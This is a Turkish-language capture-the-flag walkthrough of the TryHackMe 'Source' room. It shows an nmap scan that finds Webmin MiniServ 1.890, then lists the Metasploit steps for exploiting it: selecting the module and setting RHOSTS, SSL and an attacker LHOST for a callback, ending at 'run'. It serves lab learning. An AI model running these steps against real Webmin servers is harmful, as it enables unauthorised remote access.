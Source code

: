 # Source by Tryhackme

<a href="https://tryhackme.com/room/source" rel="nofollow">Odaya Buradan Ulaşabilirsiniz.</a> 

İlk olarak VPN açıp makinayı çalıştırıyourm. 

Bana verdiği IP adresi şu şekilde = 10.10.90.55 (sizde bu farklı olacaktır.)

Şimdi NMAP taraması yapıyorum 

``` namp -sV 10.10.90.55 ```


tarama sonucu şu şekilde;

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 08:21 EDT
Nmap scan report for 10.10.90.55
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.58 seconds
```

Burada görüyorum ki 10000 portunda Webmin çalışıyor.

10.10.90.55:10000 şekilince arama yapıyorum tarayıcıda.Burada https şekilnde arama yapmam gerektiğini görüyorum.

https://10.10.90.55:10000 şekilinde arama yapıyorum ve karşıma çıkan uyarıya Advanced kısmından devam diyerek ilerliyorum.

Karşım giriş sayfası çıkıyor.

![Screenshot_1](https://user-images.githubusercontent.com/34964480/90019273-d8f03180-dcb6-11ea-9405-660efed5b2f6.png)

Terminal ekranımda ``` msfconsole ``` komutu ile Metasploit başlatıyorum. Ardından ``` serach miniserv 1.890 ``` komutu ile exploit buluyorum.

![Screenshot_2](https://user-images.githubusercontent.com/34964480/90020558-af380a00-dcb8-11ea-9c6a-4c21a7e3548c.png)

Bulduğum bu exploiti kullanmak için exploit sırasını şeçmem gerekli bunun için ``` use 0 ``` komutunu kullandım.

Şimdi seçeneklere bir göz atalım ```options``` komutu seçenekleri gösterecektir.

![Screenshot_3](https://user-images.githubusercontent.com/34964480/90020879-2077bd00-dcb9-11ea-8745-ed7c0d3258c2.png)

Sırasıyla ;

            1 - set RHOSTS <buraya hedef ip adresi >  bizimki bu şekilde set RHOSTS 10.10.90.55 
            
            2 - set SSL true
            
            3 - set LHOST <buraya kali tun0 ip adresi > <bunu sudo ifconfig komutu ile görebiliriz>
            
            4 - run 
            

            

